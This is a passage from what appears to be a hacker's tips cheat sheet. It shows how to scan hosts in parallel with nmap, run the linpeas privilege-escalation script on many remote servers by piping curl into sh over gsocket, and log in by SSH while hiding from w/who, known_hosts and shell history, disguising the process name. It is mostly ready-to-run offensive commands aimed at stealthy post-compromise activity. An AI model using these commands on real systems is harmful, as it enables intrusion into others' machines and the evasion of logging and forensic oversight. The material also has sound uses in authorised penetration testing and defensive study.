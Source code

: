 Scan 20 hosts in parallel and log each result to a separate log file:
```sh
# hosts.txt contains a long list of hostnames or ip-addresses
# (Use -sCV for more verbose version)
cat hosts.txt | parallel -j20 'exec nmap -n -Pn -sV -F --open -oG - {} >nmap_{}.txt'
```
Note: The example uses `exec` to replace the underlying shell with the last process (nmap, gsexec). It's optional but reduces the number of running shell binaries.

Execute [Linpeas](https://github.com/carlospolop/PEASS-ng) on all [gsocket](https://www.gsocket.io/deploy) hosts using 40 workers:
```sh
# secrets.txt contains a long list of gsocket-secrets for each remote server.
cat secrets.txt | parallel -j40 'mkdir host_{}; exec gsexec {} "curl -fsSL https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh" >host_{}/linpeas.log 2>host_{}/linpeas.err'
```
Note: `xargs -P20 -I{}` is another good way but it cannot log each output into a separate file.  

---
<a id="ssh"></a>
## 2. SSH
<a id="ssh-invisible"></a>
**2.i. Almost invisible SSH**

Stops you from showing up in *w* or *who* command and stops logging the host to *~/.ssh/known_hosts*.
```sh
ssh -o UserKnownHostsFile=/dev/null -T user@server.org "bash -i"
```

Go full comfort with PTY and colors: `xssh user@server.org`:

```sh
### Cut & Paste the following to your shell, then execute
### xssh user@server.org
xssh() {
    local ttyp="$(stty -g)"
    echo -e "\e[0;35mTHC says: pimp up your prompt: Cut & Paste the following into your remote shell:\e[0;36m"
    echo -e '\e[0;36msource <(curl -SsfL https://github.com/hackerschoice/hackshell/raw/main/hackshell.sh)\e[0m'
    echo -e "\e[2m# or: \e[0;36m\e[2mPS1='"'\[\\033[36m\]\\u\[\\033[m\]@\[\\033[32m\]\\h:\[\\033[33;1m\]\\w\[\\033[m\]\\$ '"'\e[0m"
    stty raw -echo icrnl opost
    [[ $(ssh -V 2>&1) == OpenSSH_[67]* ]] && a="no"
    ssh -oConnectTimeout=5 -oUserKnownHostsFile=/dev/null -oStrictHostKeyChecking="${a:-accept-new}" -T \
        "$@" \
        "unset SSH_CLIENT SSH_CONNECTION; LESSHISTFILE=- MYSQL_HISTFILE=/dev/null TERM=xterm-256color HISTFILE=/dev/null BASH_HISTORY=/dev/null exec -a [uid] script -qc 'source <(resize 2>/dev/null); exec -a [uid] bash -i' /dev/null"
    stty "${ttyp}"
}
```
